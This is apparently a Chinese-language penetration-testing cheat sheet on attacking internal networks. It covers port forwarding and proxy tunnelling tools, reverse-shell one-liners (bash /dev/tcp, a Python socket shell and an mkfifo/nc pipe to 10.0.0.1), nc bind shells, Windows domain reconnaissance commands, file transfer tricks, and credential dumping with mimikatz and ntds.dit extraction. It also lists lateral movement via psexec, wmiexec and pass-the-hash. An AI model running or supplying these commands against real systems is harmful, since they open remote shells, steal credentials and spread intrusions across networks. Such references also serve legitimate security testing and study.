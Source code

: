 内网渗透
================================

端口转发&&边界代理
--------------------------------

端口转发
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

- windows
    - lcx
    - netsh
- linux
    - portmap
    - iptables
- socket代理
    - Win: xsocks
    - Linux: proxychains
- 神器推荐
    - http://rootkiter.com/EarthWorm/
- 基于http的转发与socket代理(低权限下的渗透)
    - 端口转发: tunna
    - socks代理: reGeorg
- ssh通道
    - 端口转发
    - socks

获取shell
--------------------------------

- 常规shell反弹

::

    bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

- 突破防火墙的imcp_shell反弹
- 正向shell

::

    nc -e /bin/sh -lp 1234
    nc.exe -e cmd.exe -lp 1234

信息收集(结构分析)
--------------------------------

- 基本命令

::

    获取当前组的计算机名：net view
    查看所有域: net view /domain
    从计算机名获取ipv4地址：ping -n 1 DC1 -4
    查看域中的用户名：dsquery user
    查询域组名称：net group /domain
    查询域管理员：net group "Domain Admins" /domain
    查看当前计算机名，全名，用户名，系统版本，工作站域，登陆域：net config Workstation
    查看域控制器：net group "Domain controllers"
    查询所有计算机名称：dsquery computer

- 定位域控
- 端口收集
- 扫描分析

内网文件传输
--------------------------------

- windows下文件传输
    - powershell
    - vbs脚本文件
    - bitsadmin
    - 文件共享
    - 使用telnet接收数据
    - hta
- linux下文件传输
    - python
    - wget
    - tar + ssh
    - 利用dns传输数据
- 文件编译
    - powershell将exe转为txt，再txt转为exe

hash抓取
--------------------------------

- 本机hash+明文抓取
- win8+win2012明文抓取
- mimikatz
- ntds.dit的导出+QuarkPwDump读取分析
- vssown.vbs + libesedb + NtdsXtract
- ntdsdump
- 利用powershell(DSInternals)分析hash

远程连接&&执行程序
--------------------------------

- at&schtasks
- psexec
- wmic
- wmiexec.vbs
- smbexec
- powershell remoting
- SC创建服务执行
- schtasks
- SMB+MOF || DLL Hijacks
- PTH + compmgmt.msc 